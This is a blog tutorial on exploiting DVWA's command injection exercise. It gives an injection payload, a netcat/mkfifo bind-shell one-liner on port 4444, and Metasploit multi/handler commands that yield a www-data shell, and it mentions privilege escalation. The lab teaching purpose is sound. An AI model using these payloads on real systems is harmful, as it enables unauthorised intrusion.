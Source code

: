 ```yaml
---
layout: post
section-type: post
title: "Exploiting Command Injection Vulnerability in DVWA with Metasploit"
category: tech
tags: ["security", "redteam", "dvwa"]
---
```


The current post describes the process of exploiting command injection
vulnerability in [DVWA]({% post_url 2017-04-02-dvwa-kali %}), and gaining access
to the server using [Metasploit](https://www.metasploit.com/). While the post
provides a step-by-step guide to the process, it could benefit from some
improvements in terms of clarity and accuracy. Here is an improved version of
the post:

Command Injection is a type of vulnerability that allows attackers to execute
arbitrary commands on the host operating system by manipulating a vulnerable
software. This type of attack is possible when the application fails to properly
validate user input and uses it to execute shell commands on the host operating
system. In this post, we will explore the Command Injection section of DVWA and
demonstrate how to use Metasploit to gain access to the server.

To begin, we need to navigate to the _Command Injection_ section of DVWA, which
is designed to ping an IP address. Let's test the section by entering the IP
address `127.0.0.1` and observing the result.

![ci-1](/img/posts/ci/ci-1.png)

As we can see, the Command Injection section simply appends our input to the
underlying bash command. This means that we can use the input field to execute
arbitrary commands on the host operating system.

Let's try appending a list bash command after our input IP address:

```bash
127.0.0.1; ls
```

![ci-2](/img/posts/ci/ci-2.png)

As expected, the Command Injection section executes the appended command and
displays the result. This confirms that we can use this vulnerability to execute
arbitrary commands on the host operating system.

ow, let's create a backdoor on the server by listening on port `4444` using
netcat and redirecting all the incoming bytes to a bash shell:

```bash
127.0.0.1; mkfifo /tmp/pipe ; sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe
```

![ci-3](/img/posts/ci/ci-3.png)

As you can see, the page is loading forever, which means that our backdoor is
open and waiting for us.

Next, let's use Metasploit to gain access to the server. We will start
msfconsole and use the `exploit/multi/handler` module to open a shell on the
server:

```bash
⁠⁠⁠msfconsole
use exploit/multi/handler
set payload linux/x64/shell/bind_tcp
set RHOST 127.0.0.1
exploit
```

![ci-4](/img/posts/ci/ci-4.png)

Note that we didn't set the LPORT of bind_tcp, since the default one is `4444`.

As you can see, we are logged in as the `www-data` user, which has limited
privileges. We can't read the `/etc/shadow` file, which contains the user
passwords of the operating system. However, we have all the privileges that the
`www-data` user has and we can potentially modify DVWA or escalate to root by
exploiting a local privilege escalation vulnerability.

In conclusion, Command Injection is a serious vulnerability that can allow
attackers to execute arbitrary commands on the host operating system. It is
important for developers to properly validate user input and avoid using it to
execute shell commands. By following the steps outlined in this post, we have
demonstrated how to exploit a Command Injection vulnerability in DVWA and gain
access to the server using Metasploit.
